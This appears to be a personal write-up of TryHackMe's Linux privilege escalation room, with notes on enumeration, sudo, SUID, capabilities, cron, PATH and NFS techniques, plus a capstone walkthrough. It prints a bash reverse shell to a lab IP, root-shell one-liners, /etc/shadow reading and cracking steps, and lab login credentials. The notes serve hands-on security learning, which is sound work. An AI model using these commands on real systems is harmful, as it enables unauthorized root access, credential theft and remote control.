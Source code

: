 ```yaml
---
title: "THM Privilege Escalation"
date: 2024-12-29 00:00:00 +0800
categories: [Try Hack Me]
tags: [THM]
---
```


# Linux PrivEsc
## Enumeration/Recon

> `hostname`
> return the hostname of the target

> `uname -a`
> print system info, **kernel used**

> `/proc/version`
> print target system processes
> compiler installed? (e.g GCC)

> `/etc/issue`
> more info of operating system

> `ps`
> see running process on linux
> `ps -A` >> view all running process
> `ps axjf` >> view process tree
> `ps aux` >> view processes for all users

> `env`
> show environmental variables

> `sudo -l`
> list all commands your user can run using `sudo`

> `ls`
> `ls -al`
> `id`

> `/etc/passwd`
> `cat /etc/passwd | cut -d ":" -f` >> list the first column only
> `cat /etc/passwd | grep home` >> list real users only

> `history`
> `ifconfig`
> `ip route`

> **netstat**
> gather info on existing connection and communication
> `netstat -a` >> shows all listening ports and established connections
> `netstat -at` >> TCP
> `netstat -au` >> UDP
> `netstat -l` >> list port in **listening** mode
> `netstat -s` >> list network usage statistics by protocol
> `netstat -tp` >> list connection with service name and PID info
> `netstat -i` >> show interface statistic
> `netstat -ano` >> `-a: display all socket` | `-n: not resolve names` | `-o: display timer`

> **find**
> `find . -name yada` >> find filename yada in current dir
> `-type d/f` `d: directory | f: file`
> `-perm 0777` >> find files with 777 permission
> `-perm a=x` >> find executable files
> `-user username` >> find files for user 'username'
> `-mtime 10` >> find files that modified in the last 10 days
> `-atime 10` >> that were accessed in the last 10 days
> `-cmin -60` >> changed within last hour (60 min)
> `-amin -60` >> accesses within last hour 
> `-size 50M` >> files with 50 MB. Can use `+ and -` for larger and smaller than.
> `find / -perm -u=s -type f 2>/dev/null` >> Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.
> 
> 
> **Folders and files that can be written or executed:**
> `find / -writable -type d 2>/dev/null` >> world-writeable folders
> `find / -perm -222 -type d 2>/dev/null` >> world-writeable folders
> `find / -perm -o w -type d 2>/dev/null` >> world-writeable folders
> `find / -perm -o x -type d 2>/dev/null` >> world-executable folders
> 
> 
> **INFO**
> Use `2>/dev/null` to redirect errors to /dev/null and have a clearer output.


>[!abstract] Automated Enumeration Tools

- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

## Privilege Escalation: Kernel Exploits

>[!info] 

- Exploiting existing vulnerability
	1 -  Identify kernel version
	2 - search an exploit code
	- searchsploit
	- exploitdb
	3 - run the exploit
- Exploiting misconfiguration and lax permissions.

## Privilege Escalation: Sudo

- `sudo -l`
- find sources - [https://gtfobins.github.io/](https://gtfobins.github.io/)
- execute

> The steps of this privilege escalation vector can be summarized as follows;
>
> 1. Check for LD_PRELOAD (with the env_keep option)
> 2. Write a simple C code compiled as a share object (.so extension) file
> 3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

## Privilege Escalation: SUID

> **SUID** (Set-user Identification) and **SGID** (Set-group Identification).
> Allow files to be executed with the permission level of the file owner or the group owner, respectively.

>[!info] 

> `find / -type f -perm -04000 -ls 2>/dev/null` >> list files have SUID or SGID bits set.

>[!question] Questions

> - use SUID to read `/etc/passwd` and `/etc/shadow`.
> - `unshadow passwd.txt shadow.txt > unshadow.txt`
> - `john --wordlist=[wordlist] unshadow.txt` > to crack the password hash.

## Privilege Escalation: Capabilities

> Capabilities help manage privileges at a more granular level
> `getcap` tool to list enabled capabilities.
> `getcap -r / 2>/dev/null`


>[!question]

- run `getcap -r / 2>/dev/null`
- search for `vim` in [GTFOBins](https://gtfobins.github.io/gtfobins/vim/)
- use capabilities exploit as below:
```
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Privilege Escalation: Cron Jobs

>[!info] 
>Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user.
>Stored in `/etc/crontab`

> [!bug] Exploit
> if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

> `bash -i >& /dev/tcp/10.0.2.15/7777 0>&1`
> `nc -nlvp 7777`

## Privilege Escalation: PATH

> [!info] 
> `echo $PATH`
> /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/chaos/.dotnet:/home/chaos/.dotnet/tools

>[!abstract] Notes
>1. What folders are located under $PATH
>2. Does your current user have write privileges for any of these folders?
>3. Can you modify $PATH?
>4. Is there a script/application you can start that will be affected by this vulnerability?

>[!question]

> 1. To find writable folder:
> `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` 
> `grep -v proc` >> get rid of results related to running process.
> 2. Found out `/home/morduch` is writable, and there is a script with SUID bit set that will execute command `thm`.
> 3. because of `thm` command is not defined, we could create a thm file in tmp dir that will execute `/bin/bash`.
> 4. Add `/tmp` dir in `$PATH` so that our `thm` file will be execute. `export PATH=/tmp:$PATH`
> 5. Run the script in `/home/morduch` and obtain a root shell.

## Privilege Escalation: NFS

> [!info] Info
> NFS is Network File Sharing.
> NFS configuration stored in `/etc/exports` file.
> 1. Find a `no_root_squash` from the `cat /etc/exports`.
> 2. Default configuration set `nfsnobody` to strip root privilege.
> 3. If `no_root_squash` is set, we can create exe with SUID.

>[!question]

> Target IP = 10.10.39.7.
> 1. Use attacking machine to find mountable shares on the target machine, `showmount -e 10.10.39.7`.
> 2. Mount a dir from attacking machine to target machine, `mount -o rw 10.10.39.7:/home/backups(mountable dir) /tmp/thm(attacking dir)`


## Capstone Challenge

>[!info] Given credential to ssh
>username: leonard
>password: Penny123

1. `find / -type f -perm -04000 -ls 2>/dev/null` >> list files have SUID or SGID bits set.
2. search base64 in GTFObin.
3. `base64 "/etc/passwd" | base64 --decode` 
4. `base64 "/etc/shadow" | base64 --decode` 
5. unshadow passwd.txt shadow.txt > result.txt
6. john --wordlist=rockyou.txt result.txt >> crack the password hash for user missy.
7. login user missy with password gained and get flag1.
8. Start privesc with `sudo -l`.
9. `/usr/bin/find`
10. search find in GTFObins. 
11. `sudo find . -exec /bin/sh \; -quit` >> to gain root access.
12. Get flag2.
